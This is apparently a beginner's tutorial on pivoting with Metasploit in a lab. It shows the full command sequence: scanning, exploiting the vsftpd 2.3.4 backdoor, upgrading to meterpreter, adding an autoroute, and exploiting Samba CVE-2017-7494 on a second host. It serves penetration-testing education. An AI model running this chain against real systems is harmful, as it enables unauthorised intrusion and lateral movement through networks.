 # basic-pivoting-with-metasploit

Basic Pivoting By Using Metasploit

This is a very basic demo or tutorial (for beginner) on how to use Metasploit to conduct Pivoting.

By referring to the definition of Pivoting from Offensive Security:

Pivoting is the unique technique of using an instance (also referred to as a ‘plant’ or ‘foothold’) to be able to move around inside a network. Basically using the first compromise to allow and even aid in the compromise of other otherwise inaccessible systems.

In simple words, that is to use one exploited machine as a gateway to access other machines in the same network or other networks that you don’t have direct network route access.

Let’s take below scenario as an example, we now have the network access to Server A, but not Server B. If we could exploit Server A successfully, then we could access Server B by using Server A as our gateway, so that we could further exploit Server B.
Simple Network Diagram

Before we start any security testing / penetration testing / red teaming / exploiting any vulnerabilities (whatever you name it), please make sure you have ALL necessary authorisation from corresponding parties or you should do it within your own self-contained testing environment.

In this demo, the focus is on Pivoting By Using Metasploit, you may find the vulnerabilities on both Server A and Server B are relatively outdated.

Let’s start with a quick NMAP scan to our first target – Server A:

nmap -sV 192.47.155.3

It is quite obvious the vsftpd could be exploitable. Let’s search for available exploit for vsftp:

search vsftp
exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 192.47.155.3
run

Woo! Server A exploited successfully and root obtained directly! We found that Server A has another interface eth1: 192.104.39.2 as well.

Let’s put this obtained session into background (Ctrl + z) first.

To conduct pivoting, we need to upgrade the shell to meterpreter:

use post/multi/manage/shell_to_meterpreter
set session 2
run

Now we have session 5 (meterpreter to Server A’s eth0 – 192,47.155.3).

This is the key part of this demo – pivoting.

Jump to session 5 and add the route!

sessions 5
run post/multi/manage/autoroute SUBNET=192.104.39.0 ACTION=ADD

Now we have to put our current session into background (Ctrl + z).

Now we could conduct tcp port scan to Server B (192.104.39.3) within Metasploit, as pivoting is in place.

use auxiliary/scanner/portscan/tcp
set rhosts 192.104.39.3
set threads 10
run

Further conducting SMB scan.

use auxiliary/scanner/smb/smb_version
set rhosts 192.104.39.3
run

As Samba 4.3.8-Ubuntu has the vulnerability CVE-2017-7494, let’s try it.

search CVE-2017-7494
use exploit/linux/samba/is_known_pipename
set rhosts 192.104.39.3
run

Yeah! Server B exploited!

Hope this simple demo / tutorial could help beginner to learn about Pivoting. Thanks for reading!

Cheers
